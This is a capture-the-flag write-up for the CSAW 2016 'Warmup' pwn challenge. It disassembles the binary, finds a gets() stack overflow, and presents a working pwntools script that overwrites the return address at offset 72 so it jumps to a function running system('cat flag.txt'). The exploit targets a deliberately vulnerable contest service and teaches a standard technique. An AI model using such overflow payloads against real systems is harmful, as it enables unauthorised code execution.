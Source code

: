 ```yaml
---
value: 50
category: Pwn
author: SneakyNachos
---
```


# Warmup

So you want to be a pwn-er huh? Well let's throw you an easy one ;)

`nc pwn.chal.csaw.io 8000`

# Solution 

Write up by: SneakyNachos

Weirdly I had the file as a elf32, but I guess they hot-fixed the question and 
made it x64. 

Doing a quick file on the new x64 version.

	$ file warmup 
	warmup: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=ab209f3b8a3c2902e1a2ecd5bb06e258b45605a4, not stripped

First I create a simple test.gdb to use with gdb and dump the main.

	$gdb -q warmup -command=test.gdb
	(gdb) x/30i main
	0x40061d <main>:	push   rbp
	0x40061e <main+1>:	mov    rbp,rsp
	0x400621 <main+4>:	add    rsp,0xffffffffffffff80
	0x400625 <main+8>:	mov    edx,0xa
	0x40062a <main+13>:	mov    esi,0x400741
	0x40062f <main+18>:	mov    edi,0x1
	0x400634 <main+23>:	call   0x4004c0 <write@plt>
	0x400639 <main+28>:	mov    edx,0x4
	0x40063e <main+33>:	mov    esi,0x40074c
	0x400643 <main+38>:	mov    edi,0x1
	0x400648 <main+43>:	call   0x4004c0 <write@plt>
	0x40064d <main+48>:	lea    rax,[rbp-0x80]
	0x400651 <main+52>:	mov    edx,0x40060d
	0x400656 <main+57>:	mov    esi,0x400751
	0x40065b <main+62>:	mov    rdi,rax
	0x40065e <main+65>:	mov    eax,0x0
	0x400663 <main+70>:	call   0x400510 <sprintf@plt>
	0x400668 <main+75>:	lea    rax,[rbp-0x80]
	0x40066c <main+79>:	mov    edx,0x9
	0x400671 <main+84>:	mov    rsi,rax
	0x400674 <main+87>:	mov    edi,0x1
	0x400679 <main+92>:	call   0x4004c0 <write@plt>
	0x40067e <main+97>:	mov    edx,0x1
	0x400683 <main+102>:	mov    esi,0x400755
	0x400688 <main+107>:	mov    edi,0x1
	0x40068d <main+112>:	call   0x4004c0 <write@plt>
	0x400692 <main+117>:	lea    rax,[rbp-0x40]
	0x400696 <main+121>:	mov    rdi,rax
	0x400699 <main+124>:	mov    eax,0x0
	0x40069e <main+129>:	call   0x400500 <gets@plt>

Looks to be a normal "gets" based overflow as none of the defenses are on. 

After running "nm -g -C warmup" I noticed a weird "easy" function. 

Let's dump that function.

	(gdb) x/6i easy
	0x40060d <easy>:	push   rbp
	0x40060e <easy+1>:	mov    rbp,rsp
	0x400611 <easy+4>:	mov    edi,0x400734
	0x400616 <easy+9>:	call   0x4004d0 <system@plt>
	0x40061b <easy+14>:	pop    rbp
	0x40061c <easy+15>:	ret    
	(gdb) x/s 0x400734
	0x400734:	"cat flag.txt"


Well that's nice of them. They have a function that does system("cat flag.txt") 
for us.

So all we need to do is overflow the stack using our input to the "gets" function
and make it such that rip points at easy which is at "0x40060d".

I found control of the rip after the input was at a size of 72. So below is the
python script that I put together to interact and exploit the service using
pwntools to make the socket communication easier.

	from pwn import *
	def main():
        HOST = "pwn.chal.csaw.io"
        PORT = 8000
		
		#0x40060d - easy
		#Overflow at 72
        payload = "\x90"*(72)+"\x0d\x06\x40\x00\x00\x00"

        r = remote(HOST,PORT)
        print r.recvline()

        #Send payload, then interact
        r.sendline(payload)
        r.interactive()
        pass
	main()

And now they would print back the flag to you.

# Flag

	FLAG{LET_US_BEGIN_CSAW_2016}
